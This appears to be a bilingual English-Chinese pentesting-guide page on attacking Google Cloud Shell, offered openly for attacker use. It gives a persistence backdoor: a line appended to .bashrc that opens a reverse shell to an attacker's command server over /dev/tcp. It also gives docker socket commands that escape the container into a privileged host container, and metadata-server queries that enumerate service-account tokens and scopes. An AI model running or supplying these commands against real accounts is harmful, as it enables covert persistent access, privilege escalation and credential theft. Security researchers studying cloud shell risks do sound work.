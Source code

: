该控制台为攻击者具有一些有趣的功能：

1. **Any Google user with access to Google Cloud** has access to a fully authenticated Cloud Shell instance.

1. **任何具有访问Google Cloud的Google用户**都可以访问完全认证的云外壳实例。
2. Said instance will **maintain its home directory for at least 120 days** if no activity happens.

2.所述实例将**维持其主目录至少120天**如果没有任何活动。
3. There is **no capabilities for an organisation to monitor** the activity of that instance.

3.组织没有能力监视该实例的活动。

This basically means that an attacker may put a backdoor in the home directory of the user and as long as the user connects to the GC Shell every 120days at least, the backdoor will survive and the attacker will get a shell everytime it's run just by doing:

这基本上意味着攻击者可以在用户的主目录中放置后门，并且只要用户至少每120天连接到GC外壳，后门就可以生存，并且攻击者每次运行时都会获得外壳 ：

```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```

## Container Escape

Note that the Google Cloud Shell runs inside a container, you can **easily escape to the host** by doing:

请注意，Google Cloud Shell在容器内运行，您可以**轻松地逃到主机**，通过：

```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```

This is not considered a vulnerability by google, but it gives you a wider vision of what is happening in that env.

这不是Google认为的漏洞，但它使您可以更广泛地了解该ENV中发生的情况。

Moreover, notice that from the host you can find a service account token:

此外，请注意，从主机可以找到一个服务帐户令牌：

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```

With the following scopes:

与以下范围：

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
